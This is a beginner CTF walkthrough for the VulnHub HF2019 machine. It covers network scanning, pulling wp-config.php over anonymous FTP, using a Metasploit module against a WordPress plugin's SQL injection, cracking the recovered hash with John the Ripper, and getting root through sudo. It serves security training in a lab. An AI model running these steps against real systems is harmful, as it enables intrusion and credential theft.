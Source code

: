 HF2019 VulnHub Walkthrough

HF2019 is a beginner-to-intermediate level vulnerable machine available on VulnHub. Download the .ova file from:
https://download.vulnhub.com/hackerfest/HF2019-Linux.ova
mport it into VirtualBox or another virtualization tool and start the machine. The goal is to capture both user and root flags.

Step 1: Identify Target IP

Scan the network for active devices:
-> sudo arp-scan -l

Look for MAC addresses starting with 08:00:27 (VirtualBox). The target IP is 10.0.2.5.

Step 2: Nmap Scan

Perform a service and version scan:
-> nmap -sC -sV -Pn -T4 10.0.2.5

Scan Results:

Open ports: 21 (FTP), 22 (SSH), 80 (HTTP), 10000 (Webmin)

FTP allows anonymous login

HTTP runs WordPress 5.2.3

Webmin is running on port 10000

Step 3: FTP Access

Connect to FTP:
-> ftp 10.0.2.5

Login anonymously, list files, and download wp-config.php:
-> get wp-config.php

Check the contents for WordPress database credentials.

Step 4: Explore WordPress Site

Open http://10.0.2.5 in a browser. Enumerate plugins, themes, and vulnerabilities:
-> wpscan --url http://10.0.2.5/
WPScan Results:

Theme: Twenty Seventeen

Vulnerable plugin: wp-google-maps

Step 5: Exploit WP Google Maps SQL Injection

Launch Metasploit:
-> msfconsole -q

Search and use the exploit module:
-> search wp-google-maps
-> use 0
-> options
-> set rhosts 10.0.2.5
-> run

The exploit reveals a user webmaster with a hashed password.

Step 6: Crack Password

Save the hash in a file:
-> nano webmaster

Crack it with John the Ripper using rockyou.txt:
-> john --wordlist=/usr/share/wordlists/rockyou.txt webmaster

Password found: kittykat1

Step 7: SSH Login

Login as webmaster:
-> ssh webmaster@10.0.2.5

List files in home and read user flag:
-> cat ~/flag.txt

Step 8: Privilege Escalation

Check sudo privileges:
-> sudo -l

User has full sudo rights. Switch to root:
-> sudo su

Step 9: Capture Root Flag

Navigate to root and read flag:
-> cd /root
-> cat flag.txt

Summary:

Gained initial access via anonymous FTP.

Enumerated WordPress and found a vulnerable plugin.

Extracted a password hash with Metasploit and cracked it.

SSH login as webmaster revealed the user flag.

Full sudo privileges allowed easy root access and the root flag.
